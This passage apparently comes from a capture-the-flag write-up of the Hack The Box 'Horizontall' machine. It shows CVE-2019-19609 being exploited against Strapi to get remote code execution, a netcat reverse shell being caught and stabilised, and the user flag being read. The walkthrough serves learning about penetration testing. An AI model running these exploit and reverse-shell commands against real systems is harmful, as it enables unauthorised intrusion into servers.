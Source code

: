 ### CVE-2019-19609
After some more research, we also realize that this version of Strapi is vulnerable to CVE-2019-19609, which is authenticated RCE. Obtaining the exploit script from [here](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py), we are able to get a reverse shell (NOTE: The exploit may fail sometimes, when that happens just reset your machine LOLz)

```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-19609]
└─$ python3 exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMyMDI0MjM2LCJleHAiOjE2MzQ2MTYyMzZ9.Ua4b3mL761BCC3gTwYcpyxA9FyLdTvQqPxS1zuJb2qM -l 10.10.16.7 -p 3000
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 3000 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. Response:
<Response [504]>
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

After obtaining the reverse shell, we will stabilize our shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000  
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.105] 57282
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ export TERM=xterm
export TERM=xterm
strapi@horizontall:~/myapi$ stty cols 132 rows 34
stty cols 132 rows 34
strapi@horizontall:~/myapi$
```
### Obtaining user flag
Now, all we have to do is to obtain our user flag. 

```
strapi@horizontall:~/myapi$ cd /home/developer
cd /home/developer
strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
<Redacted user flag>
strapi@horizontall:/home/developer$ 
```
